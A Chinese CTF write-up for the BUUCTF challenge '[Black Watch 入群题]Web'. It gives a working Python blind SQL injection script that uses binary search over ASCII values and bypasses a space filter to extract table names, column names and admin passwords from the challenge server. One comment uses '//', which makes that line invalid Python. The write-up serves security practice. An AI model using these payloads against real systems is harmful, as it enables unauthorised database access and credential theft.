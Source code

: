 ```yaml
---
title: '[Black Watch 入群题]Web'
date: 2024-09-09 21:17:17
tags: mysql
categories: 刷题笔记
---
```


### [Black Watch 入群题]Web

我们点击热点进行抓包

![image-20240909211806163](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409092118282.png)

看url，我们考虑在id处进行注入

![image-20240909211939251](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409092119410.png)

有注入点，通过测试，我们发现过滤了空格

<!--more-->

我们写脚本

```
import requests

url = "http://dc9682c1-a4c2-4131-8bf8-bee7632e33c7.node5.buuoj.cn:81/backend/content_detail.php?id="

name = ""
i = 0
while True:
    head = 32
    tail = 127
    i += 1
    while (head < tail):
        mid = head + tail >> 1
        payload = "if(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d,3,2)" % (
        i, mid)
        payload = "if(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='contents')),%d,1))>%d,3,2)" % (
        i, mid)
        payload = "if(ascii(substr((select(group_concat(password))from(admin)),%d,1))>%d,3,2)" % (i, mid) //查询username和password

        r = requests.get(url + payload)
        # print(url+payload)
        # print(r.json())
        if "Yunen" in str(r.json()):
            head = mid + 1
        else:
            tail = mid
    if head != 32:
        name += chr(head)
        print(name)
    else:
        break

# 这个代码使用了id=1时的情况,使用了二分法提高了查询的速度
```

最后用第二个账号密码拿下flag

![image-20240909212149414](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409092121606.png)
